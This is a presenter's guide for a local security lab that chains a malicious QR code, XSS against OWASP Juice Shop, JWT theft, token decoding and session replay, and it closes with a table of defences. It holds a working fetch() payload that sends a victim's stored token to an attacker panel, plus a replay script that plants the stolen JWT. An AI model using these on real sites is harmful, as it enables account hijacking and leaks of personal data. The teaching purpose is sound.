





# Demo guide — Quishing Lab (session theft + JWT decoding)

Script for presenting the full flow live: **malicious QR -> XSS -> JWT theft ->
panel that decodes the token -> hijacking the victim's session**.

Everything runs **locally / on the LAN** against an OWASP Juice Shop instance
(intentionally vulnerable). Never expose it to the Internet (see `SECURITY.md`).

- Attacker panel: `http://localhost:3000/admin.html` (or `http://<LAN_IP>:3000`)
- Juice Shop (the bait "store"): `http://<LAN_IP>:4000`
- The LAN IP is detected by the `Makefile` and injected into the panel (this run: `192.168.0.17`).

> Important: the victim must browse via the **LAN IP**, not `localhost`.
> `sessionStorage`/`localStorage` are per-origin: if they browse on `localhost`
> while the payload exfiltrates from the IP, the token is missing and the panel
> receives `loot=none`.

---

## Setup

```bash
make up        # rebuilds the panel + starts the practice stack (Juice Shop)
make health    # checks the panel
```

Open the panel, paste your **admin token**, and log in. You'll see the three QR
codes of the arsenal and the **Loot** table.

---

## Step 1 — The victim uses the "store"

The victim scans **QR #1 (Bait)**, registers and logs into Juice Shop. To them
everything looks normal: it's the real store. Juice Shop stores the JWT in
`localStorage` **and** in the `token` cookie.



## Step 2 — Session theft (XSS)

The victim scans **QR #2 (Session theft)**. The QR opens a URL with an XSS
payload that injects an `<iframe src="javascript:...">`; that payload reads the
JWT and fires it at the attacker's panel:

```js
fetch('http://<LAN_IP>:3000/api/loot?loot=' +
  encodeURIComponent(sessionStorage.getItem('token') || localStorage.getItem('token') || 'none'),
  { mode: 'no-cors' });
```

It shows up instantly in the panel's **Loot** table: time, origin (OS), victim
email, and the stolen token. The counters go up (`XSS executed`, `Sessions stolen`).



## Step 3 — Decode the JWT in the panel (the key moment)

Click **"ver payload"** on the loot row. The panel decodes the token **in the
browser** — no signing key needed, because a JWT is just `base64url`. It expands:

- **Leaked identity**: `email`, `id`, `role`, **the MD5 password hash**
  (highlighted in red), the cart `bid`, and the issue time (`iat`).
- **header** and **full payload** as JSON.



**The punchline:** the token doesn't just hijack the session; it **leaks the
full user record, including the password hash** (`password`) and the TOTP (2FA)
secret if there were one. That MD5 hash is crackable in seconds.

> Message for the audience: "This is just base64, decoded. Whoever steals the
> token reads all of this. The signature (3rd part of the JWT) prevents
> *modifying* it, it does not *hide* it. That's why a session token must not
> carry PII and should live in an `HttpOnly` cookie that JavaScript cannot read."

## Step 4 — Hijack the session (replay) and view the profile

Click the **token** in the table: it copies a ready-to-paste replay script. In
the console (F12) of a Juice Shop tab opened on the **same host:port**:

```js
localStorage.setItem("token", "<JWT>");
sessionStorage.setItem("bid", "<bid>");
document.cookie = "token=" + "<JWT>" + "; path=/";
location.href = "/#/";
```

The attacker is now logged in as the victim: they see their cart and profile.

### Why the cookie matters (the bug we fixed)

`/profile` is a **server-rendered** page (Pug) that authenticates by reading
`req.cookies.token`, **not** the `Authorization: Bearer` header. The Angular SPA
uses the `localStorage` token (Bearer) for `/rest/*` — that's why the cart and
the IDOR work — but `/profile` needs the **cookie**.

The old replay script only set `localStorage` + `bid`, so `req.cookies.token`
was `undefined`, and Juice Shop responded with **500 "Blocked illegal activity
by ..."** (see `build/routes/userProfile.js:67`). The `::ffff:172.19.0.1` is
just `req.socket.remoteAddress` (the Docker gateway) printed in the message; it
is not an IP-based block.

**Without the cookie (bug reproduced):**



**With the cookie (fix): the victim's user fields are visible:**



The fix was adding the cookie to the replay script, exactly what Juice Shop's
real login does (sets `localStorage` **and** the `token` cookie).

---

## What to demonstrate and how to protect against it (closing)

| What the demo exploits | How to protect your own app |
|---|---|
| **JWT in `localStorage`** -> any XSS exfiltrates it | Session token in an **`HttpOnly; Secure; SameSite=Strict`** cookie (JS can't read it), short TTL, rotation |
| **PII + password hash inside the token** | Token must be **opaque/minimal** (just a session id or non-sensitive claims); never put `password`/PII in it |
| **XSS** injecting `<iframe src="javascript:...">` | Strict CSP, output escaping; `HttpOnly` cuts off token exfiltration |
| **Cart IDOR** (trusts the client-supplied `bid`) | Authorize **every resource** against its real owner on the server, never against a client-supplied id |
| **JWT = base64, readable by anyone** | Don't confuse *signed* with *encrypted*; never put secrets in the payload |

---

## Resetting between demos

```bash
# the panel's "Reiniciar" button clears the loot, or:
make down && make up
```

The loot store is **memory-only by default**. With the Docker Compose
deployment (`DATABASE_URL` set) it persists in Postgres and survives
restarts; `Reiniciar` still wipes it, and `docker compose down -v`
removes the database volume entirely.

## Screenshots

| File | What it shows |
|---|---|
| `photos/01-victima-logueada.png` | Victim with an active session in the store |
| `photos/02-panel-botin.png` | Attacker panel with the stolen session |
| `photos/03b-payload-ancho.png` | Decoded JWT (identity + hash + JSON) |
| `photos/03-payload-decodificado.png` | Full panel with the payload expanded |
| `photos/04-profile-bug-sin-cookie.png` | `/profile` without cookie -> 500 Blocked |
| `photos/05-profile-fix-con-cookie.png` | `/profile` with cookie -> user fields |
